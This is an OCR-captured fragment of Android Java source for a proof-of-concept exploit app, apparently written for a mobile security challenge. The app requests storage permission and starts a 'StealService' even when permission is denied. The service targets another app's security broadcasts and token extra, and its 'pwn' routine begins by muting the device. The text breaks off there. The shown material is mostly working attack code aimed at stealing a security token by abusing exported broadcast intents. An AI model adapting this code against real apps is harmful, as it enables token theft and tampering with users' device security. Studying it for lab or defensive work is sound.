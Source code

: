 ```java
            }  
        }  
        if (requestCode == STORAGE_PERMISSION_CODE) {  
            boolean allGranted = true;  
            for (int result : grantResults) {  
                if (result != PackageManager.PERMISSION_GRANTED) {  
                    allGranted = false;  
                    break;  
                }  
            }  
            if (allGranted) {  
                Log.i("PoC", "legacy storage perm granted");  
                startExploit();  
            } else {  
                Log.e("PoC", "storage perm denied");  
                Toast.makeText(this, "storage permissions required for exploit", Toast.LENGTH_LONG).show();  
                startExploit(); // try anyway  
            }  
        }    }  
    private void startExploit() {  
        Log.i("PoC", "starting StealService...");  
  
        // start exploit  
        startService(new Intent(this, StealService.class));  
    }  
}
```

**`StealService.java`**
```java
package com.lautaro.andropseudoexploit;  
  
import android.app.Service;  
import android.app.NotificationManager;  
import android.content.*;  
import android.os.*;  
import android.media.AudioManager;  
import android.util.Log;  
  
import java.io.*;  
import java.util.*;  
  
public class StealService extends Service {  
  
    private static final String V_PKG = "com.eightksec.andropseudoprotect";  
    private static final String ACT_START = V_PKG + ".START_SECURITY";  
    private static final String ACT_STOP = V_PKG + ".STOP_SECURITY";  
    private static final String ACT_STARTED = V_PKG + ".SECURITY_STARTED";  
    private static final String ACT_DONE = V_PKG + ".DECRYPTION_COMPLETE";  
    private static final String EXTRA_TOKEN = "security_token";  
  
    private BroadcastReceiver rx;  
    private String token;  
  
    @Override  
    public int onStartCommand(Intent i, int f, int id) {  
        new Thread(this::pwn).start();  
        return START_NOT_STICKY;  
    }  
  
    private void pwn() {  
        // mute  
        muteDevice();  
```